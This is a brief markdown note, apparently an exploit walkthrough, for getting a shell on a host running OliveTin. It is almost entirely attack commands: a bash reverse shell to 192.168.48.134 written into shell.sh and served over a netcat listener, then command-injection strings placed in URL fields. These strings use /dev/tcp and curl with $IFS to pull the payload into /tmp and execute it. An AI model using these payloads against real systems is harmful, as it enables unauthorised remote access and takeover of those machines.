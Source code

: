 on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/192.168.48.134/1234 0>&1" > shell.sh
```

then run netcat on port 80 or 443 (cant have any special ports)
```
nc -lvp 80 < shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/192.168.48.134/80
```

on service this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://192.168.48.134/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
